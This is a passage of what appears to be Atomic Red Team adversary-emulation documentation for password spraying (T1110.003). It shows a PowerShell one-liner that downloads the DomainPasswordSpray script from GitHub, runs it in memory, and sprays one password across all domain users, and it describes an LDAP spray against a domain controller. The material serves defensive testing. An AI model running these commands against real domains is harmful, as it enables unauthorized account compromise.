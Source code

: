 ##### Get Prereq Commands:

```cmd
"PathToAtomicsFolder\T1110.003\src\parse_net_users.bat"
```

<br/>
<br/>

## Atomic Test #2 - Password Spray (DomainPasswordSpray)

Perform a domain password spray using the DomainPasswordSpray tool. It will try a single password against all users in the domain

https://github.com/dafthack/DomainPasswordSpray

**Supported Platforms:** Windows

**auto_generated_guid:** 263ae743-515f-4786-ac7d-41ef3a0d4b2b

#### Inputs:

| Name   | Description                   | Type   | Default Value   |
| ------ | ----------------------------- | ------ | --------------- |
| domain | Domain to brute force against | string | $Env:USERDOMAIN |

#### Attack Commands: Run with `powershell`!

```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (IWR 'https://raw.githubusercontent.com/dafthack/DomainPasswordSpray/94cb72506b9e2768196c8b6a4b7af63cebc47d88/DomainPasswordSpray.ps1' -UseBasicParsing); Invoke-DomainPasswordSpray -Password Spring2017 -Domain #{domain} -Force
```

<br/>
<br/>

## Atomic Test #3 - Password spray all Active Directory domain users with a single password via LDAP against domain controller (NTLM or Kerberos)

Attempt to brute force all Active Directory domain users with a single password (called "password spraying") on a domain controller, via LDAP, with NTLM or Kerberos

Prerequisite: AD RSAT PowerShell module is needed and it must run under a domain user (to fetch the list of all domain users)

**Supported Platforms:** Windows

**auto_generated_guid:** f14d956a-5b6e-4a93-847f-0c415142f07d

#### Inputs:

| Name     | Description                                                                                                            | Type   | Default Value      |
| -------- | ---------------------------------------------------------------------------------------------------------------------- | ------ | ------------------ |
| password | single password we will attempt to auth with (if you need several passwords, then it is a bruteforce so see T1110.001) | string | P@ssw0rd!          |
| domain   | Domain FQDN                                                                                                            | string | $env:UserDnsDomain |
| auth     | authentication method to choose between "NTLM" and "Kerberos"                                                          | string | NTLM               |
